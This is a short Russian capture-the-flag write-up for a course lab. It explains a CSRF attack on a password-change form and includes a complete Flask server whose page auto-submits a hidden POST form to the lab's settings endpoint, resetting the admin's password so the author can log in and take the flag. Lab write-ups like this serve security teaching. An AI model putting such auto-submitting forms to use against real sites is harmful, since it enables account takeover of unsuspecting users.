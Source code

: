 Название отсылает нас к уязвимости с названием CSRF. Почитать про нее можно [здесь](https://portswigger.net/web-security/csrf).

Конкретно здесь уязвимое место - это форма смены пароля. Делаем сервер с автосабмит формой на смену пароля, кидаем ссылку админу, он по ней переходит, меняет свой пароль, мы логинимся под его учеткой и получаем флаг.

Вот простенький сервер на фласке, который делает эту задачу:

```python
from flask import Flask

app = Flask(__name__)

@app.route("/")
def hello_world():
    return """
        <form action="https://cats.is-course.ru/settings" method="POST">
            <input name="password" value="345">
            <input name="confirm-password" value="345">
        </form>
        <script>
            document.forms[0].submit()
        </script>
    """

if __name__ == "__main__":
    app.run("0.0.0.0", 8080)
```

Когда я делал, у меня были следубщие проблемы:
- Хост был на http, а мой сервер на https и из-за этого не получалось сходить по форме админу. Сейчас вроде бы домен на https, поэтому такой проблемы быть не должно
- Была проблема с хостами с доменами уровня выше, например, kukakur.keenetic.link, ну или vdi.host.mipt. Сейчас хз, пофиксили или нет.
